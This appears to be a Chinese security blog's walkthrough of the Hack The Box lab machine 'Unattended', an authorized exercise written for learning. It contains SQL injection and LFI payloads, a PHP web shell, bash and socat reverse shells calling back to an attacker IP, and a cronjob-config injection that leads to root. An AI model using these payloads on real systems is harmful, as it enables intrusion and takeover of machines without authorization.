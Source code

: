> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/FV_Nwoi2p3x8QE4L0mg3zQ)

一个每日分享渗透小技巧的公众号![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCWsznInTj3b9TFYtTDIYG6lDGJZYYSv72NsVWF24Kjlo4MT29tEOQSg/640?wx_fmt=png)

  

  

大家好，这里是 **大余安全** 的第 **153** 篇文章，本公众号会每日分享攻防渗透技术给大家。

![](https://mmbiz.qpic.cn/mmbiz_gif/3EPNqoHKW4BRzqSLECuFYDvLuibglVSw65C1k7QDP5W3v9j3qh9CAGBic0U98x5roiaeytB07tJjKMicOxXDEkMZAA/640?wx_fmt=gif)

靶机地址：https://www.hackthebox.eu/home/machines/profile/184

靶机难度：中级（4.4/10）

靶机发布日期：2019 年 5 月 30 日

靶机描述：

Unattended is a medium difficulty Linux box which needs a good knowledge of SQL and its programming flaws. A path traversal on the web server can be exploited to get the source code of the PHP pages. A SQL injection flaw is found, which can be exploited using nested unions to gain LFI. The LFI can then be leveraged to RCE via log files or sessions file. Database access allows the www user to change the configuration and inject commands into a cronjob running as a user. The user is a member of the grub group, which has access to the kernel image through which the root password can be obtained.

请注意：对于所有这些计算机，我是通过平台授权允许情况进行渗透的。我将使用 Kali Linux 作为解决该 HTB 的攻击者机器。这里使用的技术仅用于学习教育目的，如果列出的技术用于其他任何目标，我概不负责。

![](https://mmbiz.qpic.cn/mmbiz_png/h41DUw6VO9mavlgOEs5E8uIJy4OU51Kz7ln1orqTSrBFQGxUHMqCbF29Nug1TcNJocC8lI0HD6X5u4icbsBFLibg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_gif/XrTibiasJJtTGCeNnvsRZqfmYBstz1lHuPA72aRQYQiaOKfQicLkWLWJ5ePZY21XO6W37XzXKoeyPYz4ZJXqEXNZFw/640?wx_fmt=gif)

一、信息收集

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPCb9OZG7UEmkGjWu2mmmNpEia93ZU6oPdgjPpaDEIyFSaiajpdbch21OjibN9HUias8t5YgJibeeBhjtA/640?wx_fmt=png)

可以看到靶机的 IP 是 10.10.10.126...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPCb9OZG7UEmkGjWu2mmmNpzKIet2PcKnoUwE2UUzfZYYd34QAicc5R107M4g1KAkDrIw7VRAhBsWg/640?wx_fmt=png)

nmap 发现开放了 http 和 https 服务...

其中包含了两个域名...www.nestedflanders.htb unattended.htb，添加到 hosts 中...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPCb9OZG7UEmkGjWu2mmmNpt1ibYs3XRRtjecLPbpvz6XmeNaI5ugmEkg3NozXlzB52reDlfPtfTBg/640?wx_fmt=png)

https 是 apache 服务...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPCb9OZG7UEmkGjWu2mmmNpUnvdL9QYsxTghA3CBXSPic4LLvsMxwTRF04NTNng8s6nZtML2T8JjUw/640?wx_fmt=png)

枚举目录发现了 index.php 可访问...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPCb9OZG7UEmkGjWu2mmmNp59bLzOsibLEJXSW5X3WKILBJIBOg9A7R4mXDgnkCgMNvbDNQKMEOhFQ/640?wx_fmt=png)

该页面提示了只有三个链接，文字中提到必须还原到旧网站，“关于” 页面还引用了攻击...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPCb9OZG7UEmkGjWu2mmmNp5Vhr6ic7uzVMQ3Q9MzGeLIOpz8t858d4tLy4raFBOfaEsUhDOdTFslA/640?wx_fmt=png)

```
https://www.nestedflanders.htb/index.php?id=25' or '1
```

访问 main 的 id 是 25, about 是 465, contact 是 587... 我尝试对 main 简单的 sql_or 注入... 是存在的...

那下面我进行了 sqlmap 盲注...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPCb9OZG7UEmkGjWu2mmmNpCiav3b7qU64yQVOOL2a7XkrCnw44LQl2K857uicDrvzvIBy67DWAI63Q/640?wx_fmt=png)

```
sqlmap -u "https://www.nestedflanders.htb/index.php?id=25" -D neddy --tables
```

通过 --dbs 枚举到了 neddy...

然后利用 sqlmap 列出了用户数据库 neddy 中的表信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPCb9OZG7UEmkGjWu2mmmNpFaWFgjEXWboQ0ftcmibRUCYGodfM9qT6ib73cWRCxIAMjoAfkZcBCkeg/640?wx_fmt=png)

```
sqlmap -u "https://www.nestedflanders.htb/index.php?id=25" -D neddy -T idname --dump
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPCb9OZG7UEmkGjWu2mmmNpn5rCiaQ1iaByhGo46lbESNnniaR7kr7edWiaRCkoUv8ZQCNBbAVOndAsPg/640?wx_fmt=png)

```
sqlmap -u "https://www.nestedflanders.htb/index.php?id=25" -D neddy -T filepath --dump
```

通过一步一步枚举，获得了三个文本表单信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPCb9OZG7UEmkGjWu2mmmNpqibAmmeJzvfFIkrlvKYRTycw1gRW03YyCQLibUqjmHchT6xIfNLcG35w/640?wx_fmt=png)

检查看看有什么隐藏内容... 继续枚举信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPCb9OZG7UEmkGjWu2mmmNpGjttwAflP0Ln55dLg78LfDfIUtiapupCEV754gzbklzuIP5rkfka0ug/640?wx_fmt=png)

这里获得了：

```
$username = "nestedflanders";$password = "1036913cf7d38d4ea4f79b050f171e9fbf3f5e";
```

在 index.php 中，发现了完整的源代码...

其中开头包含了用户名和密码....

通过完整的源代码，分析查找 LFI 利用点...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPCb9OZG7UEmkGjWu2mmmNphvEeia88P4B3V69ofR1kOGIsLMia0p99PJlLz9ujgGwIfqpeEFzeHhdg/640?wx_fmt=png)

存在 $inc...

这里应该存在文件包含漏洞... 测试下

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPCb9OZG7UEmkGjWu2mmmNpzQPibscejNfcIaR4DmMCAFvAMbhJ3PyHA9jJuqRk6M5Fxxwgiac4Nf6w/640?wx_fmt=png)

```
https://www.nestedflanders.htb/index.php?id=25' UNION SELECT"'UNION SELECT'/etc/passwd'-- -"-- -
```

通过测试，果然存在文件包含漏洞.. 进一步枚举下看

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPCb9OZG7UEmkGjWu2mmmNp11XxntnZ3AkwftUg931ia1DCicA0MEKwzBQWUmd0crWKVRvAqJqPaFXg/640?wx_fmt=png)

```
/var/lib/php/sessions/sess_kid5f8ebm04u252ep6fac2bo84
```

为了在 LFI 得到 RCE，利用 cookie 更新文件漏洞... 起作用了，下一步利用 cookie 生成的 RCE 输入 system() 即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPCb9OZG7UEmkGjWu2mmmNpkvrpiakEiaFQb05H7nUfpyq3RvxbERJ6iaqTY3IYDgicmDg2GD3RYqTic4g/640?wx_fmt=png)

```
cmd=id&
shell=<?php system($_GET['cmd']); ?>
```

输入简单的 shell... 获得了 www 低权用户信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPCb9OZG7UEmkGjWu2mmmNpAmaJCLuCrG5Ya83wvPE0u9vkiatbnB2kamOPnTtibCGrGRLs8kHvH9Pw/640?wx_fmt=png)

```
bash -c 'bash -i >& /dev/tcp/10.10.14.51/443 0>&1'
```

输入简单的 shell，获得了外壳...

但是该用户下没安装 python 和 nc... 无法进行 tty.... 查看到靶机上安装了 socat...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPCb9OZG7UEmkGjWu2mmmNpAnFL9r69TuJ1I48AVjRsHMsD51Q6xib7jO1vE3G8UUiaROHZyAYzxy3g/640?wx_fmt=png)

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.51:443
socat file:`tty`,raw,echo=0 tcp-listen:443,reuseaddr
```

可以 socat 用来获取完整的 tty，利用 socat 获得反向外壳...  

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPCb9OZG7UEmkGjWu2mmmNpiboCpYtHtnSwNpiac5KfJPlvbqMKR3awSsLQ2mEddu0cl46rIibHKxk3w/640?wx_fmt=png)

```
mysql -u nestedflanders -p1036913cf7d38d4ea4f79b050f171e9fbf3f5e
```

并利用前面获得的用户名密码，登陆了靶机的 mysql.... 进入 neddy 数据库，检查 config 表格...  

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPCb9OZG7UEmkGjWu2mmmNp9hjtBMMOm8lcnw49OYic86ZJQasNe5Ks90Gu5AMdCyYU7BSYGMSNiaXQ/640?wx_fmt=png)

在 86 行存在一个 perl 脚本...

该脚本会不时地执行，我们无法读取或替换这些脚本，但是可以从数据库中更改该配置的值，并使用反向 shell 命令，由于没用 nc，继续利用 socat...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPCb9OZG7UEmkGjWu2mmmNplIib7tA4uzCfEq48ttUOUs0Xichfk1vbH1p7zb6CtV6icEPsVF4J3iaM8Q/640?wx_fmt=png)

```
update config set option_value = "socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.51:443" where id = 86;

select * from config where id = 86;
socat file:`tty`,raw,echo=0 tcp-listen:443,reuseaddr
```

修改完后，获得了反向外壳... 读取到了 user_flag 信息...  

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPCb9OZG7UEmkGjWu2mmmNp6tWsSOX8V6uGCOhpk8EcYhZ0JpvLBYV27Ltpjvpht0PZUWnsNlApOw/640?wx_fmt=png)

枚举了 grub 组信息，发现该组只有 / boot/initrd.img-4.9.0-8-amd64 在运行着...

copy 到新文件分析看... 这是 gzip 文件... 通过解压发现这是文档文件... 需要 cpio 提取...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPCb9OZG7UEmkGjWu2mmmNpdtvGxLwjGoWgZ6DSdjG8wYF7GDKruYy1xgefGLY28bF6QNtriaSJDpw/640?wx_fmt=png)

使用 cpio 后打开了文档... 为启动 ramdisk 提供了文件系统...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPCb9OZG7UEmkGjWu2mmmNp28f5yV0T0p9hkqYpsuqGmNlaq2iaXJSXabD9Pe4iaibKbaYOZJ8ku8qGw/640?wx_fmt=png)

通过阅读 scripts/local-block/cryptroot 内容...

最主要的是该行 `/sbin/uinitrd c0m3s3f0ss34nt4n1 | $cryptopen` 生成 root 密码并将其通过管道传输到 `$cryptopen`

意思就是 / sbin/uinitrd 会根据 c0m3s3f0ss34nt4n1 生成密匙...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPCb9OZG7UEmkGjWu2mmmNpPoTfxOvWAicUG4DtmHsSpr64whFshUCwlLZqbBDMw3jlKlsnj5We7Og/640?wx_fmt=png)

  

  

  

通过 / sbin/uinitrd 生成的密匙，尝试 root 成功登陆... 获得了 root 权限和 root_flag 信息...

由于我们已经成功得到 root 权限查看 user 和 root.txt，因此完成这台中级的靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

![](https://mmbiz.qpic.cn/mmbiz_png/aUOT8MibumibTezJtREQ7iabtA23O9WAFku4Bian1vXLOpxwIk705rqQvxdoBr6uT5hxFc9wq6XibJS5FjKdbsBC1dg/640?wx_fmt=png)

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqjaFWwyrrhiciahSpOibxqKvSIFX0iaPcG00CjYIwQDwIDeIicmFMlOVNyhWYVSE8pJK566UK3YOUNWQ/640?wx_fmt=png)

随缘收徒中~~ **随缘收徒中~~** **随缘收徒中~~**

欢迎加入渗透学习交流群，想入群的小伙伴们加我微信，共同进步共同成长！

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

大余安全

一个全栈渗透小技巧的公众号

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCSsnsc7MHh257oYRic1MOT8qibABNUEnTq9DUL7QBwnS52EheJf4m8iaTQ/640?wx_fmt=png)